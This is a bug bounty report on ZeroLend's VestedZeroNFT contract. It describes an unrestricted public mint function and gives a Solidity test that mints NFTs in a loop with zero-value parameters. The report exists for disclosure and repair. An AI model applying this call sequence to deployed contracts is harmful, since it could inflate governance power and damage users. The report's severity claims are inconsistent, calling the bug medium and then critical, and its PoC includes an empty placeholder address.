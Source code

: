 
# Unlimited Minting of VestedZeroNFT

Submitted on Mar 7th 2024 at 23:55:31 UTC by @oxumarkhatab for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29130

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
In current Implementation , the checks can easily be passed inside the public mint function because all the paramters are user controlled and there is no access control on that function.


## Vulnerability Details

The mint function does not have any access control implemented .
Also there are  checks which can easily be circumvented through careful 
crafting of those parameters and minting unlimited NFTs .

Take a look at this code 

```
    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);

        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }

        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });

        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

        return lastTokenId;
    }

```
First of all , there is no restriction to call this function so attacker can call and exploit it.

The function mints the latest ID NFT to the address passed , 
the attacker will pas his own address
`
        _mint(_who, ++lastTokenId);

`
Now attacker has to make this transaction success by avoiding require failures.
here's how he can do it.

If user pass `_unlockDate` as 0 , then following checks will be passed
`
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

`

Now for circumventing Plenty block, user will pass false

`
   if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
`
a new Lock is created

`
     tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
`

And lastly some zeroToken needs to be moved from attacker's pocket to VestedZeroNFT contract . Which attacker can easily trick by passing 
pending and upfront amounts as 0 , 
`
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

`
See the protocol does not use safeTransferFrom , rather transferFrom from openzeppelin standard as it imports as follows 

`
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

`
Looking at OZs implementation , this function returns false on not sucess, 
so whatever amount we pass in as _pending and _upfront , the transfer might fail but transaction will not . That is the sweet spot for attacker.

`
function transferFrom(address from, address to, uint256 value) external returns (bool);
`

The Transaction is sucessfully executed and now the attacker has New NFT.

This process can be repeated for as long as attacker wants to print money out of thin air .

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## Impact Details

Attacker can have unlimited NFTs at the cost of just gas for transaction : )

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## References
See PoC for more details


## Proof of Concept

```solidity

event NewTokenIDMinted(uint);

    function test_InfiniteMint()public {
        address DEPLOYED_VESTED_ZERO_NFT_ADDRESS=address();
        address AttackerAddress=0x37A8d3c717ec8fDc8BD859627F18ce89c31E1E8b;
        VestedZeroNFT vest=new VestedZeroNFT();
        for (uint i = 0; i < 1000; i++) {
            
            uint newTokenId =vest.mint(
                    AttackerAddress,
                    0,
                    0,
                    0, // pass any suitable value 
                    0, // pass any suitable value 
                    0 ,// to  these checks  if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");
                    false,
                    VestCategory.EARLY_ZERO


                );
                emit NewTokenIDMinted(newTokenId);
            
            }

    }
```